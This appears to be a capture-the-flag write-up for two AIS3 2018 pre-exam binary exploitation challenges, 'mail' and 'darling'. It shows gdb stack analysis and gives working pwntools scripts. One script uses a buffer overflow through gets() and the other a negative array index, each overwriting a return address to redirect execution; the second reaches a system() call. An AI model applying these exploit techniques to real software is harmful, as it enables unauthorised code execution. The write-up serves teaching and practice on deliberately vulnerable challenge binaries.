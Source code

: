 ```yaml
---
title: pwn
date: 2018-08-01 21:11:44
tags:
  - CTF
  - AIS3
  - pre exam
categories:
  - CTF
  - AIS3
  - 2018
---
```



This is 2018 AIS3 prexam pwn writeups.
<!-- More -->

## mail
`disass` shows nothing.
`objdump -d ./mail | less` found a function called `reply`.
Use `gdb` check it.

```sh=
gdb-peda$ disass reply
Dump of assembler code for function reply:
   0x0000000000400796 <+0>:     push   rbp
   0x0000000000400797 <+1>:     mov    rbp,rsp
   0x000000000040079a <+4>:     sub    rsp,0x10
   0x000000000040079e <+8>:     mov    edi,0x400928
   0x00000000004007a3 <+13>:    call   0x400610 <puts@plt>
   0x00000000004007a8 <+18>:    mov    edi,0x40095b
   0x00000000004007ad <+23>:    mov    eax,0x0
   0x00000000004007b2 <+28>:    call   0x400630 <printf@plt>
   0x00000000004007b7 <+33>:    mov    esi,0x400970
   0x00000000004007bc <+38>:    mov    edi,0x400972
   0x00000000004007c1 <+43>:    call   0x400680 <fopen@plt>
   0x00000000004007c6 <+48>:    mov    QWORD PTR [rbp-0x8],rax
   ...
End of assembler dump.
gdb-peda$ 
```
`fopen` so make a return address of `main` change to reply.

Enter `main` function and check it has two variable to cover `RET` of `main`.
Make a break point at first variable input.
```sh=
gdb-peda$ disass
Dump of assembler code for function main:
   ...
   0x0000000000400853 <+81>:    call   0x400630 <printf@plt>
   0x0000000000400858 <+86>:    lea    rax,[rbp-0x20]
   0x000000000040085c <+90>:    mov    rdi,rax
   0x000000000040085f <+93>:    mov    eax,0x0
   0x0000000000400864 <+98>:    call   0x400650 <gets@plt>
   ...
gdb-preda$ b *0x0000000000400864
Breakpoint 2 at 0x400864
gdb-peda$ info b
Num     Type           Disp Enb Address            What
1       breakpoint     keep y   0x0000000000400806 <main+4>
        breakpoint already hit 1 time
2       breakpoint     keep y   0x0000000000400864 <main+98>
gdb-peda$ 
```

Execute program and get `main` function's `RBP` and `RSP` address which is ..
```sh
RBP: 0x7fffffffdcd0 --> 0x4008a0 (<__libc_csu_init>:    push   r15)
RSP: 0x7fffffffd990 --> 0x7ffff7a1dff8 --> 0x6c5f755f72647800 ('')
```

Hit `continue` to enter some dummy data in order to locat variable's address in `stack`. (I put a bouch of `'A'`.)
Locate `0x....dbd0` in stack.
```sh=
gdb-preda$ stack 120
...
0792| 0x7fffffffdca8 --> 0x0
0800| 0x7fffffffdcb0 ('A' <repeats 32 times>)
0808| 0x7fffffffdcb8 ('A' <repeats 24 times>)
0816| 0x7fffffffdcc0 ('A' <repeats 16 times>)
0824| 0x7fffffffdcc8 ("AAAAAAAA")
0832| 0x7fffffffdcd0 --> 0x400800 (<reply+106>: leave)
0840| 0x7fffffffdcd8 --> 0x7ffff7a2d830 
                    (<__libc_start_main+240>:       mov    edi,eax)
0848| 0x7fffffffdce0 --> 0x0 
...
```

So the variable is at `0x....dcb0`, calculate offset with `RBP(0x....dcd0)` is 32 Bytes.
And the `RTN` is front of `RBP` which is `$rbp - 0x8`, so we need to cover `32 + 8` bytes from first variable.

Find the function `reply` its address is...
```sh=
gdb-peda$ disass reply
Dump of assembler code for function reply:
   0x0000000000400796 <+0>:     push   rbp
...
```

That every thing. cover dummy data with 40 bytes and input `reply` function's address `0x....400796`
Wrote a small python...
```python=
from pwn import *

p = process('./mail')
#p = remote('104.199.235.135', 2111)
p.sendline('A' * (32 + 8) + '\x96\x07\x40\x00\x00\x00\x00\x00')
print(p.recv())
p.interactive()
```

---

## darling
Use array index to jump to variable `permission_code` and change to `6666`.
and cover function `read()` it's return address to function `debug()`.
```sh=
gdb-peda$ disass debug
Dump of assembler code for function debug:
   0x00000000004007d6 <+0>:     push   rbp
   0x00000000004007d7 <+1>:     mov    rbp,rsp
   0x00000000004007da <+4>:     mov    edi,0x400d88
   0x00000000004007df <+9>:     call   0x400660 <system@plt>
   0x00000000004007e4 <+14>:    nop
   0x00000000004007e5 <+15>:    pop    rbp
   0x00000000004007e6 <+16>:    ret    
End of assembler dump.
gdb-peda$ 
```

Use `gdb` make a break point at `   0x0000000000400c8f <+1192>:  call   0x400680 <read@plt>`
`skip` nto read function and check it's return address to found stack address.

```sh=
gdb-peda$ stack 30
0000| 0x7fffffffdb68 --> 0x400c94 
                    (<main+1197>: mov    eax,DWORD PTR [rbp-0x14c])
0008| 0x7fffffffdb70 --> 0x0 
0016| 0x7fffffffdb78 --> 0x800000001 
0024| 0x7fffffffdb80 --> 0x500000000 
0032| 0x7fffffffdb88 --> 0x1a0a 
0040| 0x7fffffffdb90 --> 0x2 
0048| 0x7fffffffdb98 --> 0x10 
0056| 0x7fffffffdba0 --> 0x10 
0064| 0x7fffffffdba8 --> 0x2 
0072| 0x7fffffffdbb0 --> 0xf 
0080| 0x7fffffffdbb8 --> 0x38 ('8')
0088| 0x7fffffffdbc0 --> 0x186 
0096| 0x7fffffffdbc8 --> 0x29a 
0104| 0x7fffffffdbd0 --> 0x22c 
0112| 0x7fffffffdbd8 --> 0xd6 
0120| 0x7fffffffdbe0 ("Strelitzia")
0128| 0x7fffffffdbe8 --> 0x6169 ('ia')
0136| 0x7fffffffdbf0 ("Delphinium")
0144| 0x7fffffffdbf8 --> 0x6d75 ('um')
0152| 0x7fffffffdc00 ("Argentea")
0160| 0x7fffffffdc08 --> 0x0 
0168| 0x7fffffffdc10 --> 0x617473696e6547 ('Genista')
0176| 0x7fffffffdc18 --> 0x0 
0184| 0x7fffffffdc20 ("Chlorophytum")
0192| 0x7fffffffdc28 --> 0x6d757479 ('ytum')
--More--(25/30)  
```

I select first element which is `Strelitzia` which stack address is `0x....dbe0` to offset to return address whichs `0x....db8`, and the offset range is 120 byte.
The char array store `Strelitzia` is a 16 bytes long element. so each index I decrease would cause memory address move backward 16 byte.
At least I have to backward 16 * 8(128 byte) to cover return address.
But need more 8 dummy character to fit into extra backward.

```python=
from pwn import *

#p = process('./darling')
p = remote('104.199.235.135', 2112)
p.sendlineafter('Index: ', '-1')
p.sendlineafter('Code: ', '6666')
p.sendlineafter('Are you sure ? (yes:1 / no:0) ', '0')
p.sendlineafter('Index: ', '0')
p.sendlineafter('Code: ', '2')
p.sendlineafter('Are you sure ? (yes:1 / no:0) ', '0')
p.sendlineafter('Index: ', '1')
p.sendlineafter('Code: ', '16')
p.sendlineafter('Are you sure ? (yes:1 / no:0) ', '1')

p.sendlineafter('Which FRANXX do you wnat to use ? ', '-8')
p.sendlineafter(
    'New name for this FRANXX: ',
    'A' * 8 + p64(0x00000000004007D6)
)
p.interactive()
```
